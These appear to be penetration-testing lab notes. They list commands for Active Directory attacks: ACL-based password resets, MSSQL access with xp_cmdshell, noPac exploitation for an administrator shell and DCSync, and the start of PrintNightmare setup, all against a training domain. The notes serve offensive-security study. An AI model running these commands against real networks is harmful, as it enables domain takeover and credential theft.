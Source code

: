 We can use our ACL rights to authenticate with the wley user, change the password for the damundsen user and then authenticate with the target using a tool such as PowerUpSQL
#### Enumerating MSSQL Instances with PowerUpSQL
```
Import-Module .\PowerUpSQL.ps1
```
```
Get-SQLInstanceDomain
```
```
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version’
```
### Linux
Running mssqlclient.py Against the Target
```
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
```
enable_xp_cmdshell 
```
Enumerating our Rights on the System using xp_cmdshell
```
xp_cmdshell whoami /priv
```
# NoPac (SamAccountName Spoofing)
```
git clone https://github.com/Ridter/noPac.git
```
We can use the scanner with a standard domain user account to attempt to obtain a TGT from the target Domain Controller. If successful, this indicates the system is, in fact, vulnerable. We'll also notice the ms-DS-MachineAccountQuota number is set to 10. In some environments, an astute sysadmin may set the ms-DS-MachineAccountQuota value to 0. If this is the case, the attack will fail because our user will not have the rights to add a new machine account. 
## Scanning for NoPac
```
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
```
ms-DS-MachineAccountQuota number is set to 10
```
## Running NoPac & Getting a Shell
```
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
## Using noPac to DCSync the Built-in Administrator Account
```
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
# PrintNightmare
```
git clone https://github.com/cube0x0/CVE-2021-1675.git
```
## Install cube0x0's Version of Impacket
```
pip3 uninstall impacket
```
```
```